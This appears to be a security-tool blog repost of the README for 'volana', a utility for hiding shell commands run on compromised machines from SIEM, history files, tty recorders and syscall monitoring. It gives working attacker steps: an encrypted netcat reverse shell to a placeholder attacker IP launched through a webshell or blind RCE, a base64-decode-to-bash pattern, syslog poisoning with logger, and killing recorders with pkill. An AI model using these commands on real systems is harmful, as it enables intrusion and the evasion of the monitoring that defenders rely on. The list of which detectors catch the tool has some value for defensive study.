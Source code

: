 ```yaml
---
title: "Volana - Shell Command Obfuscation To Avoid Detection Systems"
date: Wed, 19 Jun 2024 08:30:00 -0400
draft: false
type: posts
categories: 
- Exploitation,Infosec,Obfuscator,Pentest,Pentest Tool,Redteam,Shell Obfuscate,Volana
---
```

# Volana - Shell Command Obfuscation To Avoid Detection Systems

<br/>

<br/>
[![](https://blogger.googleusercontent.com/img/a/AVvXsEjwHywu1MIETxz4EH2PyiPK3380XzJ4D5Pwj4NR2FdQsjL_3SMMKX-5A78mReHbAjvUTK9DvzVK3ceDmge-ihPhaU7ur5A-5ylNRrDuEVRQKRM6D_xY67r8HslUuph9hiRL6tbYVhEERI063hVhsQr6FkEphP4PkjekNQUDFhCjiNmSaK08guKhfwfUxOrJ=s320)](https://blogger.googleusercontent.com/img/a/AVvXsEjwHywu1MIETxz4EH2PyiPK3380XzJ4D5Pwj4NR2FdQsjL_3SMMKX-5A78mReHbAjvUTK9DvzVK3ceDmge-ihPhaU7ur5A-5ylNRrDuEVRQKRM6D_xY67r8HslUuph9hiRL6tbYVhEERI063hVhsQr6FkEphP4PkjekNQUDFhCjiNmSaK08guKhfwfUxOrJ)

  

#### Shell command obfuscation to avoid SIEM/detection system

During pentest, an important aspect is to **be [stealth](https://www.kitploit.com/search/label/Stealth "stealth")**. For this reason you should **clear your tracks after your passage**. Nevertheless, many infrastructures log command and send them to a [SIEM](https://www.kitploit.com/search/label/Siem "SIEM") in a real time making the afterwards cleaning part alone useless.  
  
`volana` provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana executes for you). Like this you **clear your tracks DURING your passage**

Usage
-----

You need to get an interactive shell. (Find a way to spawn it, you are a hacker, it's your job ! [otherwise](https://github.com/ariary/volana#from-non-interactive-shell "otherwise")). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed

```
## Download it from github release## If you do not have internet access from compromised machine, find another waycurl -lO -L https://github.com/ariary/volana/releases/latest/download/volana## Execute it./volana## You are now under the radarvolana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cockyvolana » [command]
```

Keyword for volana console: \* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call) \* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `[encrypt](https://www.kitploit.com/search/label/Encrypt "encrypt")` and `decrypt` subcommand. Previously, you need to build `volana` with embedded [](https://www.kitploit.com/search/label/Encryption "🌒 Shell command obfuscation to avoid detection systems (5)")[encrypt](https://www.kitploit.com/search/label/Encrypt "encrypt")ion key.

**On attacker machine**

```
## Build volana with encryption keymake build.volana-with-encryption## Transfer it on TARGET (the unique detectable command)## [...]## Encrypt the command you want to stealthy execute## (Here a nc bindshell to obtain a interactive shell)volana encr "nc [attacker_ip] [attacker_port] -e /bin/bash">>> ENCRYPTED COMMAND
```

Copy encrypted command and executed it with your rce **on target machine**

```
./volana decr [encrypted_command]## Now you have a bindshell, spawn it to make it interactive and use volana usually to be stealth (./volana). + Don't forget to remove volana binary before leaving (cause decryption key can easily be retrieved from it)
```

**_Why not just hide command with `echo [command] | base64` ?_** And [decode](https://www.kitploit.com/search/label/Decode "decode") on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against systems that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

Detection
---------

Keep in mind that `volana` is not a miracle that will make you totally invisible. Its aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.

### Hide from

Only the `volana` launching command line will be catched. 🧠 **However, by adding a space** before executing it, the default bash behavior is to not save it

-   Detection systems that are based on history command output
-   Detection systems that are based on history files
-   `.bash_history`, ".zsh\_history" etc ..
-   Detection systems that are based on bash debug traps
-   Detection systems that are based on sudo built-in logging system
-   Detection systems tracing all processes syscall system-wide (eg `opensnoop`)
-   Terminal (tty) recorder (`script`, `screen -L`, [`sexonthebash`](https://github.com/ariary/sexonthebash "🌒 Shell command obfuscation to avoid detection systems (8)"), `ovh-ttyrec`, etc..)
-   Easy to detect & avoid: `pkill -9 script`
-   Not a common case
-   `screen` is a bit more difficult to avoid, however it does not register input (secret input: `stty -echo` => avoid)
-   Command detection Could be avoid with `volana` with encryption

### Visible for

-   Detection systems that have alert for unknown command (volana one)
-   Detection systems that are based on keylogger
-   Easy to avoid: copy/past commands
-   Not a common case
-   Detection systems that are based on syslog files (e.g. `/var/log/auth.log`)
-   Only for `sudo` or `su` commands
-   syslog file could be modified and thus be poisoned as you wish (e.g for _/var/log/auth.log_:`logger -p auth.info "No hacker is poisoning your syslog solution, don't worry"`)
-   Detection systems that are based on syscall (eg auditd,LKML/eBPF)
-   Difficult to analyze, could be make unreadable by making several diversion syscalls
-   Custom `LD_PRELOAD` injection to make log
-   Not a common case at all

Bug bounty
----------

Sorry for the clickbait title, but no money will be provided for contibutors. 🐛

Let me know if you have found: \* a way to detect `volana` \* a way to spy console that don't detect `volana` commands \* a way to avoid a detection system

[Report here](https://github.com/ariary/volana/issues/new/choose "Report here")

Credit
------

-   [8 ways to spy on console](https://github.com/annmuor/zn2021_8ways "8 ways to spy on console")
-   [moonwalk](https://github.com/mufeedvh/moonwalk "moonwalk"): similar tool that clear tracks AFTER passage

  
  

**[Download Volana](https://github.com/ariary/volana "Download Volana")**

<br/>
[Source](http://www.kitploit.com/2024/06/volana-shell-command-obfuscation-to.html)
---

